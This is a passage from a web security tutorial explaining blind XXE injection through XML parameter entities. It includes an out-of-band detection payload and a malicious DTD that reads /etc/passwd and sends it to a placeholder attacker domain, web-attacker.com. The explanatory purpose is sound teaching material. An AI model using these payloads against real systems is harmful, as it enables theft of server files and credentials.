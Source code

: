 ```
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

### Exploiting blind XXE to exfiltrate data out-of-band <a href="#exploiting-blind-xxe-to-exfiltrate-data-out-of-band" id="exploiting-blind-xxe-to-exfiltrate-data-out-of-band"></a>

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

* Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
* Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
* Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
* Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```
http://web-attacker.com/malicious.dtd
```
